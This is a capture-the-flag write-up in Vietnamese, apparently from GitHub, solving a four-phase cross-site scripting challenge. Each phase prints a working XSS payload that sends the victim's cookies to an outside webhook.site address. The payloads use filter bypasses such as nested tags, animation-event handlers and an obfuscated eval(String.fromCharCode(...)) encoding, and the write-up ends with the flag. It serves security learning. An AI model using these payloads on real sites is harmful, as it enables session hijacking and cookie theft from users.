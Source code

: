 # Đề bài:
![Screenshot (535)](https://github.com/ductohno/ehc-adward/assets/152991010/28e23479-cfbf-4681-8073-bf9c305a9a09)

# Giao diện trang web:
![Screenshot (536)](https://github.com/ductohno/ehc-adward/assets/152991010/ee89af7f-538b-40f0-bf6c-c74487e1cc1e)

# Note:
- Bài này mình sử dụng webhook để nhận respone
- Sau khi bấm send, quay lại trang webhook để xem kết quả

# Khai thác:
- Bài này có 4 phase, chúng ta sẽ đi qua từng phase 1
### Phase 1:
- Bài này là xss, với phase 1 không có filter thì ta có thể tự do trong việc chọn payload
- Payload phase 1: ```<img src=0 onerror='document.location="https://webhook.site/c16cb117-4dd9-4020-81cf-59f35d3853c3?cmd="+document.cookie'>```

- Sau khi bấm send,ta nhận được cookie: ```xss2=/bf2a73106a3aa48bab9b8b47e4bd350e```
### Phase 2:
![Screenshot (537)](https://github.com/ductohno/ehc-adward/assets/152991010/52248f77-2692-488d-884d-2f31124812f8)

- Ở phase 2, nếu trong payload có script, img hoặc svg thì nó sẽ xóa chữ đó đi, ở đây ta có 2 hướng giải:
   
    - Hướng 1: Sử dụng kiểu payload <imimgg , sau khi qua filter, nó còn lại thẻ img

        - Payload: ```<imimgg src=0 onerror='document.location="https://webhook.site/c16cb117-4dd9-4020-81cf-59f35d3853c3?cmd="+document.cookie'>```

    - Hướng 2: Sử dụng 1 thẻ khác ngoài 3 thẻ trên:

        - Payload: ```<style>@keyframes x{}</style><code style="animation-name:x" onanimationend='document.location="https://webhook.site/c16cb117-4dd9-4020-81cf-59f35d3853c3?cmd="+document.cookie
'></code>```

- Sau khi bấm send,ta nhận được cookie: ```xss3=/3e79c8a64bd10f5fa897b7832384f043```
### Phase 3:
![Screenshot (538)](https://github.com/ductohno/ehc-adward/assets/152991010/7eb9d080-cc19-470d-ac5f-536d98796f4f)

- Ở phase 3, chúng ta có 1 filter hoàn toàn khác khi mà xích document, cookie và dấu :// và filter của phase 2

- Với document.cookie, có rất nhiều cách để bypass cái này, ở đây em sử dụng 1 payload em tìm được trên payloadllthething
     - Payload: ```window["doc"+"ument"]["coo"+"kie"]```

- Với dấu ://, em sử dụng fetch để lách luật

- Tổng kết, ta có payload(Không hiểu sao dấu + lại không được nên em sử dụng .concat để thay thế):
     - Payload: ```<style>@keyframes x{}</style><code style="animation-name:x" onanimationend=fetch('//webhook.site/c16cb117-4dd9-4020-81cf-59f35d3853c3?cmd='.concat(window["doc"+"ument"]["coo"+"kie"]))></code>```

- Chúng ta còn 1 cách khác, đó là encode nó, có rất nhiều cách để làm việc đó, một trong số đó là ```eval(String.FromCharCode())```
     - Payload nếu encode: ```<imimgg src=0 onerror='eval(String.fromCharCode(100,111,99,117,109,101,110,116,46,108,111,99,97,116,105,111,110,61,34,104,116,116,112,115,58,47,47,119,101,98,104,111,111,107,46,115,105,116,101,47,57,55,55,101,52,56,51,57,45,102,50,102,50,45,52,101,49,97,45,98,100,53,48,45,101,97,50,53,55,51,49,49,56,53,52,56,63,99,109,100,61,34,43,100,111,99,117,109,101,110,116,46,99,111,111,107,105,101))'>```

- Dãy số trên mang ý nghĩa là:

![Screenshot (540)](https://github.com/ductohno/ehc-adward/assets/152991010/affcfc36-fa6d-4384-8696-3f0f67b39895)

- Sau khi bấm send, ta nhận được cookie: xss4=/f40e749b80cff27f8e726b2a95740dd6
### Phase 4:
![Screenshot (492)](https://github.com/ductohno/ehc-adward/assets/152991010/274a2cd9-38d9-4b25-b9b6-80ca41aea5eb)

- Ở phase 4, thật sự mọi thứ đã khó hơn rất nhiều khi web đã filter dấu ", + và /

- Thực sự thì filter này đã gây ra cho em rất nhiều khó khăn, và em phải chọn phương án đi xin hint

- Hint: Sử dụng eval(String.fromCharCode())

- Để bypass thì em sẽ xài cách encode như em đã trình bày ở phase 3

- #### Payload:
```
<video src=0 onerror='eval(String.fromCharCode(100,111,99,117,109,101,110,116,46,108,111,99,97,116,105,111,110,61,34,104,116,116,112,115,58,47,47,119,101,98,104,111,111,107,46,115,105,116,101,47,57,55,55,101,52,56,51,57,45,102,50,102,50,45,52,101,49,97,45,98,100,53,48,45,101,97,50,53,55,51,49,49,56,53,52,56,63,99,109,100,61,34,43,100,111,99,117,109,101,110,116,46,99,111,111,107,105,101))'>
```

### Kết quả cuối cùng
- Sau khi bấm send ở xss 4, ta nhận được flag:
![Screenshot (497)](https://github.com/ductohno/ehc-adward/assets/152991010/6ec17371-23ef-4496-ad3d-152f528e9858)

# Flag:
N0PS{cR05s_S1t3_Pr0_5cR1pT1nG}
